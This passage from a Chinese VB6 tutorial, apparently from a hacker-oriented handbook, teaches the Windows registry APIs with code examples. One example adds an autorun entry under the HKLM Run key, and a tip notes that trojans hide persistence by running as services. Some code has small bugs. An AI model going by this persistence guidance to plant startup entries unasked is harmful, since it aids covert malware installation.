Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
' 声明 RegDeleteKey 函数
Private Declare Function RegDeleteKey Lib "advapi32.dll" Alias "RegDeleteKeyA" (ByVal hKey As Long, ByVal lpSubKey As String) As Long
' 定义主键常数
Private Const HKEY_CURRENT_CONFIG = &H80000005

Private Sub Form_Load()
    Dim RegHwnd As Long                    ' 变量，保存所打开子键的句柄
    RegOpenKey HKEY_CURRENT_CONFIG, "Nohack", RegHwnd   ' 打开子键并返回句柄
    If RegDeleteKey(RegHwnd, "Lijiejie") = 0 Then      ' 若删除子键 Lijiejie 成功
        MsgBox "Lijiejie 子键删除成功"
    End If
End Sub
```

如果要删除主键下的子键，则只需使用主键常数，而不必使用 RegOpenKey 函数来取得子键的句柄。

### 5.6.5 RegEnumKey 函数——枚举子键

使用 RegEnumKey 函数可以枚举指定的主键或子键下面的所有子键。它的 API 函数声明为：

```vb
Declare Function RegEnumKey Lib "advapi32.dll" Alias "RegEnumKeyA" (ByVal hKey As Long, ByVal dwIndex As Long, ByVal lpName As String, ByVal cbName As Long) As Long
```

它的 4 个参数说明如下：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开子键的句柄，或者指定一个标准主键名 |
| dwIndex | Long，欲获取的子键的索引。第一个子键的索引编号为零 |
| lpName | String，用于装载指定索引处子键名的一个缓冲区 |
| cbName | Long，lpName 缓冲区的长度 |

函数的返回值为 Long，零（ERROR_SUCCESS）表示成功，其他任何值都代表一个错误代码。仅当返回 0 时，表明函数返回成功。

使用这个函数的时候，需要预先为 lpName 参数对应的那个变量分配一定大小的缓冲区，索引值用于设置需要返回第几个子键，请读者朋友们注意，第一个子键对应的索引值是 0。

为了使读者朋友更好地理解，在枚举一个键下面的所有子键之前，我们来返回主键下面的第一个子键的名称。此处返回 HKEY_CURRENT_CONFIG 主键下面的第一个子键的名称：

```vb
' 声明 API 函数
Private Declare Function RegEnumKey Lib "advapi32.dll" Alias "RegEnumKeyA" _
(ByVal hKey As Long, ByVal dwIndex As Long, ByVal lpName As String, ByVal cbName As Long) As Long
' 定义主键常数
Private Const HKEY_CURRENT_CONFIG = &H80000005

Private Sub Form_Load()
    ' 声明变量，SubKeyName 保存子键的名称，KeyIndex 保存子键的索引值
    Dim SubKeyName As String, KeyIndex
    SubKeyName = String(255, Chr(0))   ' 分配大小为 255 个字节，预先用 Chr(0) 填充
    KeyIndex = 0                       ' 设置索引值为 0，表明是第一个子键
    ' 调用函数，返回第一个子键的名称到变量 SubKeyName 中
    RegEnumKey HKEY_CURRENT_CONFIG, KeyIndex, SubKeyName, Len(SubKeyName)
    MsgBox SubKeyName
End Sub
```

运行上面的代码，如图 5-32 所示，得到第一个子键的名称为 “Nohack”。将 KeyIndex 的值变成 1，就可以获取第二个子键的名称，不断增大 KeyIndex，直到再也无法成功返回子键的名称，就可以枚举出一个键下面的所有子键。下面示例枚举 HKEY_CURRENT_CONFIG 主键下面的所有子键，枚举其他主键或子键的所有子键，方法与之类似。

在窗体中画一个 ListBox 控件，然后编写如下代码：

```vb
' 声明 API 函数
Private Declare Function RegEnumKey Lib "advapi32.dll" Alias "RegEnumKeyA" _
(ByVal hKey As Long, ByVal dwIndex As Long, ByVal lpName As String, ByVal cbName As Long) As Long
' 定义主键常数
Private Const HKEY_CURRENT_CONFIG = &H80000005

Private Sub Form_Load()
    ' 声明变量，SubKeyName 保存子键名，KeyIndex 保存子键的索引值
    Dim SubKeyName As String, KeyIndex
    SubKeyName = String(255, Chr(0))      ' 分配子键名的大小，为 255 字节，以 Chr(0) 填充
    KeyIndex = 0                          ' 初始赋值为 0，即第一个子键
    Dim Ret As Long                       ' 变量，保存函数的返回值
    ' 返回第一个子键的名称到变量 SubKeyName
    Ret = RegEnumKey(HKEY_CURRENT_CONFIG, KeyIndex, SubKeyName, Len(SubKeyName))
    ' 循环遍历子键名
    While Ret = 0
        List1.AddItem Left(SubKeyName, InStr(SubKeyName, Chr(0)) - 1)
        KeyIndex = KeyIndex + 1           ' 索引值增加 1
        Ret = RegEnumKey(HKEY_CURRENT_CONFIG, KeyIndex, SubKeyName, Len(SubKeyName))
    Wend
End Sub
```

请读者朋友们注意上面的语句 `Left(SubKeyName, InStr(SubKeyName, Chr(0)) - 1)`，因为我们预先为 SubKeyName 分配了 255 个字节，预先用 Chr(0) 填充了，而实际的子键名是小于 255 字节的，因此 SubKeyName 变量的前面部分被子键名填充，后部分仍然为 Chr(0)。`InStr(SubKeyName, Chr(0))` 可以取得 SubKeyName 中第一个 Chr(0) 的位置，结合使用 Left 函数即可取得子键的实际名称。

在添加了子键名到 ListBox1 中后，使 KeyIndex 的值增加 1，并再次尝试调用 RegEnumKey 函数，判断 Ret 的返回值是否为 0。

希望读者朋友可以熟练掌握这种枚举方法，因为在使用 API 函数时，它是非常实用的。如果你对这段代码还有疑问，那么，笔者建议你再回头看一下前面获取第一个子键名的代码。掌握上面的枚举方法，以后就可以很容易地实现枚举项目的键值了。所以，一定要耐心地多看几遍哦。

### 5.6.6 RegQueryValue 函数——读取默认项的值

使用 RegQueryValue 函数可以查询注册表中指定主键或子键下面默认项的值，它的功能比较有限，只能查看默认的项。请看其 API 函数声明：

```vb
Declare Function RegQueryValue Lib "advapi32.dll" Alias "RegQueryValueA" (ByVal hKey As Long, ByVal lpSubKey As String, ByVal lpValue As String, lpcbValue As Long) As Long
```

对于函数中的几个参数，做如下说明：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开项的句柄，或者指定一个标准项名 |
| lpSubKey | String，要获取一个值的子项。可设为 VBNullString，表示获取 hKey 的值 |
| lpValue | String，用于容纳指定项值的一个字串 |
| lpcbValue | Long，指定一个变量，用于装载 lpValue 缓冲区的长度。一旦返回，它会设为实际载入缓冲区的字节数量 |

更直接的描述是，hKey 是主键或子键的句柄，而 lpSubKey 是 hKey 下面的子键名，lpValue 用于保存项目的名称。

函数的返回值为 Long，零（ERROR_SUCCESS）表示成功，其他任何值都代表一个错误代码。

图 5-33 HKEY_CLASSES_ROOT\.txt 子键

下面示例读取子键 HKEY_CLASSES_ROOT\.txt 下面默认项的值，如图 5-33 所示。我们编写如下代码：

```vb
' 声明 API 函数
Private Declare Function RegQueryValue Lib "advapi32.dll" Alias "RegQueryValueA" (ByVal hKey As Long, ByVal lpSubKey As String, ByVal lpValue As String, lpcbValue As Long) As Long

' 定义主键常数
Private Const HKEY_CLASSES_ROOT = &H80000000

Private Sub Form_Load()
    Dim KeyValue As String                 ' 变量，用于保存默认项的值
    KeyValue = String(255, Chr(0))         ' 初始长度为 255，用 Chr(0) 填充
    ' 调用函数返回默认值到变量 KeyValue
    RegQueryValue HKEY_CLASSES_ROOT, ".txt", KeyValue, 255
    MsgBox Left(KeyValue, InStr(KeyValue, Chr(0)) - 1)   ' 提示返回的值
End Sub
```

运行上面的代码，如图 5-34 所示，成功返回了默认项的值。结合使用 Left 函数是因为 KeyValue 最初是以 Chr(0) 填充的，程序只截取其中的有用值。

这个 API 函数只能读取默认项的值，它的作用比较有限，下面我们介绍 RegQueryValueEx 函数，它是 RegQueryValue 函数的增强，可以读取任意项的键值，当然也包括默认项。

### 5.6.7 RegQueryValueEx 函数——读取任意项的值

刚才说了，RegQueryValueEx 函数是 RegQueryValue 函数的增强，它可以读取任意项的值，使用也更多。其函数声明为：

```vb
Declare Function RegQueryValueEx Lib "advapi32.dll" Alias "RegQueryValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal lpReserved As Long, lpType As Long, lpData As Any, lpcbData As Long) As Long
```

参数说明如下：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开项的句柄，或者指定一个标准项名 |
| lpValueName | String，要获取值的名字 |
| lpReserved | Long，未用，设为零 |
| lpType | Long，用于装载返回数据类型的一个变量 |
| lpData | Any，用于装载指定值的一个缓冲区 |
| lpcbData | Long，用于装载 lpData 缓冲区长度的一个变量，一旦返回，它会设为实际装载到缓冲区的字节数 |

上面 lpType 是返回项目数据类型的变量，为长整型。当需要判断返回的是什么类型的数据时，可以在 API 浏览器中查询以 Reg 开头的变量，下面列出最常见的数据项的类型以及它们的说明：

| 类型名称 | 类型说明 |
|---|---|
| REG_BINARY | 二进制数据 |
| REG_DWORD | 一个 32 位数字 |
| REG_EXPAND_SZ | 一个包含未被引用的环境变量的以空字符结束的字符串（如 "%PATH%"），可通过 ExpandEnvironmentStrings 函数扩展环境变量引用 |
| REG_MULTI_SZ | 一个以空字符结束的字符串数组，被两个 null 字符结束 |
| REG_SZ | 一个以空字符结束的字符串（Unicode 或 ANSI，依函数而定） |

在注册表中，出现得最多的项类型是 REG_SZ，也就是说，注册表中保存的数据大多是字符串类型的。

下面示例读取 HKEY_CLASSES_ROOT\.txt 子键下的 Content Type 项的值，通过图 5-33 可以看到，它的值是 text/plain。

请读者朋友注意，这里必须先使用 RegOpenKey 函数返回 HKEY_CLASSES_ROOT\.txt 子键的句柄，读取一个 REG_SZ 类型的字符串数据是最简单的操作，读者朋友们应该熟练掌握。

新建一个工程，然后写入如下代码：

```vb
' 窗体通用部分进行函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 声明函数
Private Declare Function RegQueryValueEx Lib "advapi32.dll" Alias "RegQueryValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal lpReserved As Long, lpType As Long, lpData As Any, lpcbData As Long) As Long

' 主键常数
Private Const HKEY_CLASSES_ROOT = &H80000000

' 类型常数，为字符串类型
Private Const REG_SZ = 1

Private Sub Form_Load()
    Dim RegHwnd As Long                ' 变量，保存子键的句柄
    ' 返回子键 HKEY_CLASSES_ROOT\.txt 的句柄
    RegOpenKey HKEY_CLASSES_ROOT, ".txt", RegHwnd
    ' 变量 KeyValue 保存项的值，而 LenKeyValue 用于设置或返回项的缓存大小
    Dim KeyValue As String, LenKeyValue As Long
    LenKeyValue = 255                  ' 设置缓存大小为 255
    KeyValue = String(255, Chr(0))     ' 初始化为长度 255 的 Chr(0) 字符串
    ' 调用函数返回项的值
    RegQueryValueEx RegHwnd, "Content Type", ByVal 0, REG_SZ, ByVal KeyValue, LenKeyValue
    MsgBox Left(KeyValue, InStr(KeyValue, Chr(0)) - 1)
End Sub
```

图 5-35 读取指定项的值

运行上面的代码，如图 5-35 所示。可以看到，程序正确读取了“Content Type”项的值。

- **注意：**
- `KeyValue` 前面的 `ByVal` 一定不能省去，此处是按值传递的；如果省略，则按地址传递，会出现严重错误，甚至引起程序崩溃。
- 项的值长度我们初始分配大小为 255，但也可以先分配为 0；当分配大小小于实际需要时，函数会返回实际需要的大小到变量中。此时第二次调用函数即可成功返回项的值到 `KeyValue` 变量中。为了进一步说明这一点，请看笔者下面编写的另一类代码。
- 调用函数后，`KeyValue` 变量前部会被项值填充，剩余部分仍是 `Chr(0)`，因此可以结合 `InStr` 与 `Left` 函数取得其实际值。

上面的代码也可以修改为下面的形式，它们所实现的功能是一样的：

```vb
' 函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 函数声明
Private Declare Function RegQueryValueEx Lib "advapi32.dll" Alias "RegQueryValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal lpReserved As Long, lpType As Long, lpData As Any, lpcbData As Long) As Long

' 主键常数
Private Const HKEY_CLASSES_ROOT = &H80000000

' 类型常数
Private Const REG_SZ = 1

Private Sub Form_Load()
    Dim RegHwnd As Long                ' 变量，保存子键的句柄
    ' 返回子键 HKEY_CLASSES_ROOT\.txt 的句柄
    RegOpenKey HKEY_CLASSES_ROOT, ".txt", RegHwnd

    ' 变量 KeyValue 保存项的值，而 LenKeyValue 用于设置或返回项的缓存大小
    Dim KeyValue As String, LenKeyValue As Long
    LenKeyValue = 0                    ' 初始设置为 0，比实际大小要小

    ' 调用函数返回项的值实际大小到变量 LenKeyValue
    RegQueryValueEx RegHwnd, "Content Type", ByVal 0, REG_SZ, ByVal KeyValue, LenKeyValue

    ' 根据实际大小来初始化 KeyValue 的大小
    KeyValue = String(LenKeyValue + 1, Chr(0))

    ' 再次调用函数返回项的值到变量 KeyValue
    RegQueryValueEx RegHwnd, "Content Type", ByVal 0, REG_SZ, ByVal KeyValue, LenKeyValue
End Sub
```

```vb
MsgBox KeyValue
End Sub
```

运行上面的代码，同样可以正确取得“Content Type”项的值。对上面的代码，进行如下几点说明：

- 由于初始化了 LenKeyValue 的大小为 0，缓冲过小，根本无法容纳项的值。首次调用 RegQueryValueEx 是失败的，但在调用失败的同时，函数已经把项实际需要的大小返回到了变量 LenKeyValue 中。所以在进行第二次调用之前，我们可以利用 LenKeyValue 变量的值来初始化 KeyValue，并用它来分配缓冲大小。

- 我在初始化 KeyValue 时，使用了 LenKeyValue + 1，为什么要多一个 1？这是因为，一个字符串结尾的标志是 Chr(0)，前面长度为 LenKeyValue 的缓冲是用于保存项的实际值，而作为字符串结尾标志，我们还需要加一个 Chr(0) 在字符串的后面。为了使大家更好地理解这一点，请看代码：`MsgBox "黑客手册" & Chr(0) & "Nohack"`。

上面的代码运行结果是什么呢？是“黑客手册Nohack”吗？答案是否定的。因为 Chr(0) 是作为字符串结尾标志的，程序读到 Chr(0)，就认为字符串结束了，不会再读取后续字符。所以，上面的代码运行结果应该是“黑客手册”。运行结果如图 5-36 所示。


图 5-36 运行结果

由于在字符串后面添加了作为结尾标志的 Chr(0)，所以我们应该避免对它进行字符串连接操作。

上面笔者介绍了最简单的读取字符串内容的操作。下面介绍读取 REG_EXPAND_SZ 类型的内容，它在内容中包含了可展开的环境变量，而为了展开环境变量字符串，可以使用 API 函数 ExpandEnvironmentStrings。先简单介绍 ExpandEnvironmentStrings 函数吧。它的 API 函数声明为：

```vb
Declare Function ExpandEnvironmentStrings Lib "kernel32" Alias "ExpandEnvironmentStringsA" (ByVal lpSrc As String, ByVal lpDst As String, ByVal nSize As Long) As Long
```

其中的 3 个参数说明如下：

| 参数 | 类型及说明 |
|---|---|
| lpSrc | String，欲扩充的字串 |
| lpDst | String，扩充过后的字串 |
| nSize | Long，lpDst 的长度。注意预先对 lpDst 进行初始化，使其与这个长度相符 |

函数返回值为 Long，lpDst 要求的缓冲区的大小。如 nSize 小于这个数字，也就是说缓冲区太小，以至不能全容下扩充过后的字串，那么 lpDst 不会被载入。可利用这个结果改变字串的大小。零表示遇到错误，会设置 GetLastError。

环境变量是由“%”包围起来的。常用的环境变量有以下这些。这些环境变量不用每个都记住，可以在需要的时候再查询，不过读者朋友需要了解大致有哪几类环境变量，诸如系统、用户等：

| 环境变量 | 说明 |
|---|---|
| %ALLUSERSPROFILE% | 返回所有“用户配置文件”的位置。 |
| %APPDATA% | 返回默认情况下应用程序存储数据的位置。 |
| %CD% | 返回当前目录字符串。 |
| %CMDCMDLINE% | 返回用来启动当前的 Cmd.exe 的准确命令行。 |
| %CMDEXTVERSION% | 返回当前“命令处理程序扩展”的版本号。 |
| %COMPUTERNAME% | 返回计算机的名称。 |
| %COMSPEC% | 返回命令行解释器可执行程序的准确路径。 |
| %DATE% | 返回当前日期。使用与 `date /t` 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。 |
| %ERRORLEVEL% | 返回最近使用过的命令的错误代码。通常用非零值表示错误。 |
| %HOMEDRIVE% | 返回连接到用户主目录的本地工作站驱动器号。 |
| %HOMEPATH% | 返回用户主目录的完整路径。 |
| %HOMESHARE% | 返回用户的共享主目录的网络路径。 |
| %LOGONSERVER% | 返回验证当前登录会话的域控制器的名称。 |
| %NUMBER_OF_PROCESSORS% | 指定安装在计算机上的处理器数目。 |
| %OS% | 返回操作系统名称（如 Windows_NT）。 |
| %PATH% | 指定可执行文件的搜索路径。 |
| %PATHEXT% | 返回操作系统认为可执行的文件扩展名列表。 |
| %PROCESSOR_ARCHITECTURE% | 返回处理器体系结构。 |
| %PROCESSOR_IDENTIFIER% | 返回处理器说明。 |
| %PROCESSOR_LEVEL% | 返回处理器型号。 |
| %PROCESSOR_REVISION% | 返回处理器版本号。 |
| %PROMPT% | 返回当前解释程序的命令提示符设置。 |
| %RANDOM% | 返回 0 到 32767 之间的任意十进制数字。 |
| %SYSTEMDRIVE% | 返回包含 Windows 根目录的驱动器。 |
| %SYSTEMROOT% | 返回 Windows 根目录的位置。 |
| %TEMP% / %TMP% | 返回当前登录用户可用的默认临时目录。 |
| %TIME% | 返回当前时间（与 `time /t` 类似格式）。 |
| %USERDOMAIN% | 返回当前用户账户所在域名。 |
| %USERNAME% | 返回当前登录用户名。 |
| %USERPROFILE% | 返回当前用户配置文件位置。 |
| %WINDIR% | 返回操作系统目录位置。 |


下面示例展开 `%OS%`，以获取操作系统的版本：

```vb
' 声明 API 函数
Private Declare Function ExpandEnvironmentStrings Lib "kernel32" Alias "ExpandEnvironmentStringsA" (ByVal lpSrc As String, ByVal lpDst As String, ByVal nSize As Long) As Long

Private Sub Form_Load()
    Dim OsInfor As String         ' 变量，保存操作系统版本
    OsInfor = String(255, Chr(0)) ' 初始化 OsInfor 变量
    ExpandEnvironmentStrings "%OS%", OsInfor, 255  ' 调用函数
    MsgBox OsInfor
End Sub
```

上面的代码运行后的结果如图 5-37 所示。可以看出，程序只能得到大的版本，而无法具体到 Vista 或 XP；但使用 `GetVersionEx` 函数则可以获取具体的操作系统版本。

了解完了怎样展开环境变量，下面来使用 `RegQueryValueEx` 函数读取 `REG_EXPAND_SZ` 类型的值。此处示例读取子键 `HKEY_CLASSES_ROOT\.txt\ShellNew` 下的项 `ItemName`，它的值是 `@%SystemRoot%\system32\notepad.exe,-470`，我们在读取后将其展开，如图 5-38 所示。


我们编写如下代码：

```vb
' 函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 函数声明
Private Declare Function RegQueryValueEx Lib "advapi32.dll" Alias "RegQueryValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal lpReserved As Long, lpType As Long, lpData As Any, lpcbData As Long) As Long

' 主键常数
Private Const HKEY_CLASSES_ROOT = &H80000000

' 类型常数
Private Const REG_EXPAND_SZ = 2

' 声明 API 函数
Private Declare Function ExpandEnvironmentStrings Lib "kernel32" Alias "ExpandEnvironmentStringsA" (ByVal lpSrc As String, ByVal lpDst As String, ByVal nSize As Long) As Long

Private Sub Form_Load()
    Dim RegHwnd As Long
    RegOpenKey HKEY_CLASSES_ROOT, ".txt\ShellNew", RegHwnd

    Dim KeyValue As String, LenKeyValue As Long
    LenKeyValue = 255
    KeyValue = String(255, Chr(0))

    RegQueryValueEx RegHwnd, "ItemName", ByVal 0, REG_EXPAND_SZ, ByVal KeyValue, LenKeyValue

    Dim StrToExpand As String, StrResult As String
    StrToExpand = Left(KeyValue, InStr(KeyValue, Chr(0)) - 1)

    StrResult = String(255, Chr(0))
    ExpandEnvironmentStrings StrToExpand, StrResult, 255

    MsgBox StrResult
End Sub
```


运行上面的代码，结果如图 5-39 所示。对比图 5-38，可以看到，`%SystemRoot%` 已经被展开为 `C:\Windows`，它是系统所在目录。

上面的代码综合应用函数 `RegQueryValueEx` 和 `ExpandEnvironmentStrings`，希望读者朋友们可以理解掌握。

至此，我们对注册表读取操作的介绍告一段落，限于篇幅，其他几种类型数据的读取方法不再叙述，请读者朋友们查阅相关资料。字符串和可扩展字符串是最基本的类型。掌握它们已经可以实现诸多的功能了。下面继续介绍注册表写操作。

### 5.6.8 RegSetValue 函数——设置默认项的值

`RegSetValue` 函数可以设置注册表主键或子键中默认项的值，它的功能比较有限，但作为基础，建议读者朋友们了解并掌握。它的函数声明为：

```vb
Declare Function RegSetValue Lib "advapi32.dll" Alias "RegSetValueA" (ByVal hKey As Long, ByVal lpSubKey As String, ByVal dwType As Long, ByVal lpData As String, ByVal cbData As Long) As Long
```

对于其中的几个参数，我们做如下说明：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开项的句柄，或指定一个标准项名 |
| lpSubKey | String，欲对它的值进行设置的一个子项的名字。如指定 VBNullString，表示设置 hKey 的默认值。如指定的子项不存在，则会创建它 |
| dwType | Long，必须是 REG_SZ |
| lpData | String，新值 |
| cbData | Long，指定 lpData 的长度，不包括空中止字符 |


可以看到，这里只能设置字符串类型的值，而且是设置默认的项。首先在 `HKEY_CURRENT_CONFIG\Nohack` 子键下编辑默认项的值为“www.nohack.cn”，然后编写程序来设置，如图 5-40 所示。

请看下面的代码：

```vb
' 函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
' 主键常数
Private Const HKEY_CURRENT_CONFIG = &H80000005
' 类型常数
Private Const REG_SZ = 1
' 函数声明
Private Declare Function RegSetValue Lib "advapi32.dll" Alias "RegSetValueA" (ByVal hKey As Long, ByVal lpSubKey As String, ByVal dwType As Long, ByVal lpData As String, ByVal cbData As Long) As Long

Private Sub Form_Load()
    Dim RegHwnd As Long
    RegOpenKey HKEY_CURRENT_CONFIG, "Nohack", RegHwnd
    ' 调用函数设置默认项的值
    RegSetValue HKEY_CURRENT_CONFIG, "Nohack", REG_SZ, "黑客手册", LenB("黑客手册")
End Sub
```


运行上面的代码，再查看注册表中的项，可以看到它的值已经变成了“黑客手册”，如图 5-41 所示。

> 注意：此处想看到修改后的效果，请按 F5 来刷新注册表。当然，也可以通过重新打开注册表来查看修改后的效果。

### 5.6.9 RegSetValueEx 函数——设置指定项的值

前一小节介绍的函数 `RegSetValue`，它只能设置默认项的值，而要设置其他项的值，它就无能为力了。这时就应该使用 `RegSetValueEx` 函数。函数的声明为：

```vb
Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long
```

其中的几个参数做如下说明：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开项的句柄，或指定一个标准项名 |
| lpValueName | String，要设置值的名字 |
| Reserved | Long，未用，设为零 |
| dwType | Long，要设置的数据类型 |
| lpData | Any，包含数据的缓冲区中的第一个字节 |
| cbData | Long，lpData 缓冲区的长度 |

函数的返回值为 Long，零（`ERROR_SUCCESS`）表示成功，其他任何值都代表一个错误代码。下面我们示例在子键 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下新建一个开机启动项 `Bingker`，将程序的路径设置成 `D:\1.test.exe`。

> **提示：** 在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 子键下保存了大部分的开机启动项。将程序设置成开机启动还有其他方法，例如 `...\RunOnce` 子键也可设置开机启动项。  
> 第二，将程序放在启动文件夹同样可以实现开机启动。  
> 第三，修改 `Boot.ini` 文件亦可实现开机启动。  
> 方法不限于此。如果需要编写开机启动程序，通常写入 `...\Run` 子键；若编写木马，则不会使用如此明显的方法，将木马作为服务启动亦是一种选择。


请看下面的代码：

```vb
' 函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 主键常数
Private Const HKEY_LOCAL_MACHINE = &H80000002

' 类型常数
Private Const REG_SZ = 1

' 函数声明
Private Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long

Private Sub Form_Load()
    Dim RegHwnd As Long            ' 变量，保存子键的句柄
    RegOpenKey HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Run", RegHwnd
    ' 新建一个项并设置它的值为 D:\test.exe
    RegSetValueEx RegHwnd, "Bingker", 0&, REG_SZ, ByVal "D:\test.exe", LenB("D:\test.exe")
End Sub
```

运行上面的代码，我们可以在注册表中找到对应的键值，如图 5-42 所示。而此时，如果你已经安装了 360 安全卫士，则会出现一个来自 360 安全卫士的提示信息，让用户选择是否允许添加这个启动项，如图 5-43 所示。

注意：最后一个参数 `cbData` 是获取字符串的字节长度，使用 `LenB` 函数，而不是使用 `Len` 函数来返回长度。

### 5.6.10 RegDeleteValue 函数——删除指定项的值

`RegDeleteValue` 函数用于删除注册表中的某一个项目的值。它的声明为：

```vb
Declare Function RegDeleteValue Lib "advapi32.dll" Alias "RegDeleteValueA" (ByVal hKey As Long, ByVal lpValueName As String) As Long
```

它的两个参数：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开项的句柄（或标准项名之一） |
| lpValueName | String，要删除的值名。可设为 `VBNullString` 或空串，表示删除该项的默认值 |


它的返回值为 Long，零（ERROR_SUCCESS）表示成功，其他任何值都代表一个错误代码。

下面示例删除之前建立的 Bingker 启动项。使用下面的代码：

```vb
' 函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
' 主键常数
Private Const HKEY_LOCAL_MACHINE = &H80000002
' 函数声明
Private Declare Function RegDeleteValue Lib "advapi32.dll" Alias "RegDeleteValueA" (ByVal hKey As Long, ByVal lpValueName As String) As Long

Private Sub Form_Load()
    Dim RegHwnd As Long      ' 保存子键句柄
    RegOpenKey HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Run", RegHwnd
    RegDeleteValue RegHwnd, "Bingker"
End Sub
```

运行上面的代码，再去注册表中查看 Run 子键，会发现“Bingker”项已经被删除了。

### 5.6.11 RegEnumValue 函数——枚举项的名称和值

使用 RegEnumValue 函数可以枚举注册表中一个主键或子键下面所有项的名称和值。例如，我们可以枚举 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 子键下所有项的名称和值，这样就可以获取所有对应的开机启动项的值。枚举开机启动项，也就是使用这样的方式。下面来看函数声明：

```vb
Private Declare Function RegEnumValue Lib "advapi32.dll" Alias "RegEnumValueA" (ByVal hKey As Long, ByVal dwIndex As Long, ByVal lpValueName As String, lpcbValueName As Long, ByVal lpReserved As Long, lpType As Long, lpData As Any, lpcbData As Long) As Long
```

函数的几个参数：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开项的句柄，或者指定一个标准项名 |
| dwIndex | Long，欲获取值的索引。注意第一个值的索引编号为零 |
| lpValueName | String，用于装载位于指定索引处值名的一个缓冲区 |
| lpcbValueName | Long，用于装载 lpValueName 缓冲区长度的一个变量。一旦返回，它会设为实际载入缓冲区的字符数量 |
| lpReserved | Long，未用；设为零 |
| lpType | Long，用于装载值的类型代码的变量 |
| lpData | Any，用于装载值数据的一个缓冲区 |
| lpcbData | Long，用于装载 lpData 缓冲区长度的一个变量。一旦返回，它会设为实际载入缓冲区的字符数量 |

函数的返回值为 Long，零（ERROR_SUCCESS）表示成功，其他任何值都代表一个错误代码。

> 注意：使用 API 浏览器复制的声明中，lpData 参数为 Byte 类型，但使用 Byte 类型却无法正确获取项的值，因此读者朋友们请自己手工将其改为 Any 类型。

请看下面的例子：

```vb
' 函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 主键常数
Private Const HKEY_LOCAL_MACHINE = &H80000002

' 函数声明
Private Declare Function RegEnumValue Lib "advapi32.dll" _
    Alias "RegEnumValueA" (ByVal hKey As Long, ByVal dwIndex As Long, _
    ByVal lpValueName As String, lpcbValueName As Long, _
    ByVal lpReserved As Long, lpType As Long, lpData As Any, _
    lpcbData As Long) As Long

' 类型常数
Private Const REG_SZ = 1
Private Const REG_EXPAND_SZ = 2

Private Sub Form_Load()
    Dim RegHwnd As Long                    ' 变量，保存子键句柄
    ' 调用函数返回句柄
    RegOpenKey HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Run", RegHwnd

    ' RegIndex 是项的索引，ValueName 是项的名称，RegType 是值类型，DataValue 是项的值
    Dim RegIndex As Integer, ValueName As String, RegType As Long, DataValue As String
    ValueName = String(255, Chr(0))        ' 初始化项的名称为 255 长度的 Chr(0)
    DataValue = String(255, Chr(0))        ' 初始化项的值为 255 长度的 Chr(0)
    RegIndex = 0                           ' 索引值设为 0，第一个项的索引为 0
    Dim Ret As Long                        ' 函数调用后的返回值
    Ret = 0                                ' 初始为 0，假设其调用成功
    Me.AutoRedraw = True                   ' 设置窗体自动重绘

    While Ret = 0                          ' 循环调用直到调用失败
        Ret = RegEnumValue(RegHwnd, RegIndex, ValueName, 255, 0&, REG_SZ, ByVal DataValue, 255)
        Me.Print "项名为：" & ValueName
        Me.Print Left(DataValue, InStr(DataValue, Chr(0)) - 1)
        Me.Print "--------------------------------------------------------------"
        RegIndex = RegIndex + 1            ' 项的索引值增加 1
        DataValue = String(255, Chr(0))    ' 再次初始化项的值
        ValueName = String(255, Chr(0))    ' 再次初始化项的名称
    Wend
End Sub
```


HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 子键下面的所有项如图 5-44 所示。我们编写的程序运行后的结果如图 5-45 所示。

> **注意：** 上面每次调用完函数之后，都重新初始化 ValueName 和 DataValue，有意义吗？答案是肯定的，因为如果我们先在变量中保存了较长的数据，第二次调用时不清空，则新的数据只会覆盖前面的部分，后面的部分将不会改变，那么此时我们得到的数据将是错误的。

